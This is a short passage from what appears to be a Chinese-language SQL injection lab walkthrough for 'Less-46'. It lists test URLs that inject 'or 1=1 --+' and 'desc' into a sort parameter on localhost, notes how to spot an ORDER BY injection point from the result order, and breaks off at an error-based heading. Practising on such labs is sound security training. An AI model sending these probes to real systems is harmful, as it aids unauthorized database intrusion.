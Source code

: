 ![](/img/sql/order1.png)

### 简单判断

paylaod:

> http://localhost/Less-46/?sort=1%27%20or%201=1%20--+
>
> http://localhost/Less-46/?sort=1%20%20or%201=1%20--+
>
> http://localhost/Less-46/?sort=1%20%20desc

`desc`/`asc`观察回显的顺序，判断是否有orderby从句的注入点

### 基于报错
